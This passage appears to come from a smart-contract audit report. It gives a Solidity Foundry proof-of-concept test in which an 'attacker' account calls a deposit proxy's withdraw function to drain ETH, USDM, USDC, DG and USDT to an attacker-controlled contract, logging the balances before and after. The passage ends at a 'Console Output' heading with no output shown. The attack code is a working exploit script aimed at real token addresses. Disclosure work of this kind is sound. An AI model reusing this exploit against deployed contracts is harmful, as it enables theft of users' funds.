 ```solidity
        tokensToSteal[0] = address(0); //ETH
        tokensToSteal[1] = 0x59D9356E565Ab3A36dD77763Fc0d87fEaf85508C; //USDM
        tokensToSteal[2] = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48; //USDC
        tokensToSteal[3] = 0x53C8395465A84955c95159814461466053DedEDE; //DG
        tokensToSteal[4] = 0xdAC17F958D2ee523a2206206994597C13D831ec7; //USDT

        console.log("");
        console.log("Balance of proxy, before attack:");
        for(uint i; i < tokensToSteal.length; i++) {
            string memory symbol = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).symbol() : "ETH";
            uint balance = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy)) : address(deposit_proxy).balance;
            console.log("%s (%s): %d", tokensToSteal[i], symbol, balance);
        }        
        
        vm.startPrank(attacker);
        for(uint i; i < tokensToSteal.length; i++) {
            uint amount;
            if (tokensToSteal[i] == address(0)) {
                amount = address(deposit_proxy).balance;
            } else {
                amount = IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy));
            }

            deposit_proxy.withdraw(address(0), address(attacker_controlled_contract), tokensToSteal[i], amount);

            if (tokensToSteal[i] == address(0)) {
                amount = address(deposit_proxy).balance;
            } else {
                amount = IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy));
            }
        }
        vm.stopPrank();

        console.log("");
        console.log("Balance of proxy, after attack:");
        for(uint i; i < tokensToSteal.length; i++) {
            string memory symbol = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).symbol() : "ETH";
            uint balance = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy)) : address(deposit_proxy).balance;
            console.log("%s (%s): %d", tokensToSteal[i], symbol, balance);
        }
    }
}
```

**Console Output:**
